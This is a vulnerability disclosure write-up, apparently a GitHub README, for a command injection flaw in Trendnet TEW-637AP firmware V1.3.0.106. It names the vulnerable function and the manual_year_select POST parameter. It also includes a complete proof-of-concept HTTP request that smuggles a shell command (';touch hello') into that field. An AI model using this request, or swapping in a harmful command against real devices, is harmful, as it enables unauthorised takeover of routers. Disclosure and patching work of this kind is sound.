 # Trendnet TEW-637AP(V1.3.0.106) Contains Command injection vulnerability 

## overview

- Manufacturer's website information：https://www.trendnet.com/
- Firmware download address: https://www.trendnet.com/support/support-detail.asp?prod=145_TEW-637AP

## product information

TEW-637AP(V1.3.0.106)

![image-20220828224337173](readme.assets/image-20220828224337173.png)

## description

### 1. Vulnerability Details

The TEW-637AP(V1.3.0.106) contains a command injection vulnerability in file `/bin/goahead` function`sub_43D930`

![image-20220828225338930](readme.assets/image-20220828225338930.png)

We can control v2 through POST parameter `manual_year_select`, and `v2` is passed to `doSystem`, so there is a command injection vulnerability. 

### 2. Recurring loopholes and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /goform/setDateTime HTTP/1.1
Host: 192.168.0.50
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:73.0) Gecko/20100101 Firefox/73.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 12
Origin: http://192.168.0.50
Connection: close
Referer: http://192.168.0.50/wireless/wireless_mac_filtering.asp
Upgrade-Insecure-Requests: 1

manual_year_select=;touch%20hello 
```

By sending this poc, we can cause create a file named hello 

![image-20220828225312241](readme.assets/image-20220828225312241.png)